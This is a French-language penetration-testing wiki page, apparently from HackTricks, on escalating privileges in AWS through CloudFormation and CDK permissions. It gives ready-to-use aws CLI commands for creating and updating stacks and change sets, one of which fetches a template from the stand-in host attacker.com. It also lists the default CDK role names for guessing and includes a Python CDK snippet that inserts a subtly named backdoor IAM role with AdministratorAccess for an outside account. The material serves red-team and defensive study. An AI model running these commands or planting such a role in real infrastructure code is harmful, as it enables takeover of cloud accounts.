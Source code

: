 # AWS - Cloudformation Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## cloudformation

Pour plus d'informations sur cloudformation, consultez :

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### `iam:PassRole`, `cloudformation:CreateStack`

Un attaquant avec ces permissions **peut escalader les privilèges** en créant une **pile CloudFormation** avec un modèle personnalisé, hébergé sur son serveur, pour **exécuter des actions sous les permissions d'un rôle spécifié :**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Dans la page suivante, vous avez un **exemple d'exploitation** avec la permission supplémentaire **`cloudformation:DescribeStacks`** :

{{#ref}}
iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md
{{#endref}}

**Impact potentiel :** Privesc au rôle de service cloudformation spécifié.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

Dans ce cas, vous pouvez **abuser d'une stack cloudformation existante** pour la mettre à jour et escalader les privilèges comme dans le scénario précédent :
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
La permission `cloudformation:SetStackPolicy` peut être utilisée pour **vous donner la permission `UpdateStack`** sur une pile et effectuer l'attaque.

**Impact potentiel :** Privesc au rôle de service cloudformation spécifié.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Si vous avez cette permission mais **pas `iam:PassRole`**, vous pouvez toujours **mettre à jour les piles** utilisées et abuser des **rôles IAM déjà attachés**. Consultez la section précédente pour un exemple d'exploitation (il suffit de ne pas indiquer de rôle dans la mise à jour).

La permission `cloudformation:SetStackPolicy` peut être utilisée pour **vous donner la permission `UpdateStack`** sur une pile et effectuer l'attaque.

**Impact potentiel :** Privesc au rôle de service cloudformation déjà attaché.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Un attaquant ayant des permissions pour **passer un rôle et créer & exécuter un ChangeSet** peut **créer/mettre à jour une nouvelle pile cloudformation et abuser des rôles de service cloudformation** tout comme avec CreateStack ou UpdateStack.

L'exploitation suivante est une **variation de la**[ **CreateStack one**](#iam-passrole-cloudformation-createstack) utilisant les **permissions ChangeSet** pour créer une pile.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
La permission `cloudformation:SetStackPolicy` peut être utilisée pour **vous donner des permissions `ChangeSet`** sur une pile et effectuer l'attaque.

**Impact potentiel :** Privesc vers les rôles de service cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

C'est comme la méthode précédente sans passer **les rôles IAM**, donc vous pouvez simplement **abuser de ceux déjà attachés**, il suffit de modifier le paramètre :
```
--change-set-type UPDATE
```
**Impact potentiel :** Privesc au rôle de service cloudformation déjà attaché.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Un attaquant pourrait abuser de ces permissions pour créer/mette à jour des StackSets afin d'abuser des rôles cloudformation arbitraires.

**Impact potentiel :** Privesc aux rôles de service cloudformation.

### `cloudformation:UpdateStackSet`

Un attaquant pourrait abuser de cette permission sans la permission passRole pour mettre à jour des StackSets afin d'abuser des rôles cloudformation attachés.

**Impact potentiel :** Privesc aux rôles cloudformation attachés.

## AWS CDK

Le AWS cdk est un ensemble d'outils permettant aux utilisateurs de définir leur infrastructure en tant que code dans des langages qu'ils connaissent déjà, ainsi que de réutiliser facilement des sections. Le CDK convertit ensuite le code de haut niveau (c'est-à-dire python) en modèles Cloudformation (yaml ou json).

Pour utiliser le CDK, un utilisateur administratif doit d'abord initialiser le compte, ce qui crée plusieurs rôles IAM, y compris le *rôle exec*, qui a des permissions \*/\*. Ces rôles suivent la structure de nommage `cdk-<qualifier>-<name>-<account-id>-<region>`. L'initialisation doit être effectuée une fois par région et par compte.

Par défaut, les utilisateurs du CDK n'ont pas accès à la liste des rôles nécessaires pour utiliser le CDK, ce qui signifie que vous devrez les déterminer manuellement. Si vous compromettez la machine d'un développeur ou un nœud CI/CD, ces rôles peuvent être assumés pour vous accorder la capacité de déployer des modèles CFN, en utilisant le rôle `cfn-exec` pour permettre à CFN de déployer n'importe quelles ressources, compromettant complètement le compte.

### Détermination des noms de rôle

Si vous avez `cloudformation:DescribeStacks`, les rôles sont définis dans une pile appelée `CDKToolkit`, et vous pouvez en extraire les noms.

Si vous êtes sur une machine qui a été utilisée pour construire et déployer des projets CDK, vous pouvez les extraire de `cdk.out/manafest.json` dans le répertoire racine des projets.

Vous pouvez également faire une bonne supposition sur ce qu'ils sont. `qualifier` est une chaîne ajoutée aux rôles permettant de déployer plusieurs instances de l'initialisation CDK en même temps, cependant la valeur par défaut est codée en dur à `hnb659fds`.
```
# Defaults
cdk-hnb659fds-cfn-exec-role-<account-id>-<region>
cdk-hnb659fds-deploy-role-<account-id>-<region>
cdk-hnb659fds-file-publishing-role-<account-id>-<region>
cdk-hnb659fds-image-publishing-role-<account-id>-<region>
cdk-hnb659fds-lookup-role-<account-id>-<region>
```
### Ajouter du code malveillant au code source du projet

Si vous pouvez écrire dans le code source du projet, mais que vous ne pouvez pas le déployer vous-même (par exemple, le développeur déploie le code via CI/CD, pas depuis la machine locale), vous pouvez toujours compromettre l'environnement en ajoutant des ressources malveillantes à la pile. Ce qui suit ajoute un rôle IAM qui peut être assumé par un compte attaquant à un projet python CDK.
```python
class CdkTestStack(Stack):
def __init__(self, scope: Construct, construct_id: str, **kwargs) -> None:
super().__init__(scope, construct_id, **kwargs)

# ----------
# Some existing code.....
# ----------

role = iam.Role(
self,
"cdk-backup-role", # Role name, make it something subtle
assumed_by=iam.AccountPrincipal("1234567890"), # Account to allow to assume the role
managed_policies=[
iam.ManagedPolicy.from_aws_managed_policy_name("AdministratorAccess") # Policies to attach, in this case AdministratorAccess
],
)
```
## Références

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
- [https://github.com/aws/aws-cdk-cli/blob/main/packages/aws-cdk/lib/api/bootstrap/bootstrap-template.yaml](https://github.com/aws/aws-cdk-cli/blob/main/packages/aws-cdk/lib/api/bootstrap/bootstrap-template.yaml)

{{#include ../../../../banners/hacktricks-training.md}}
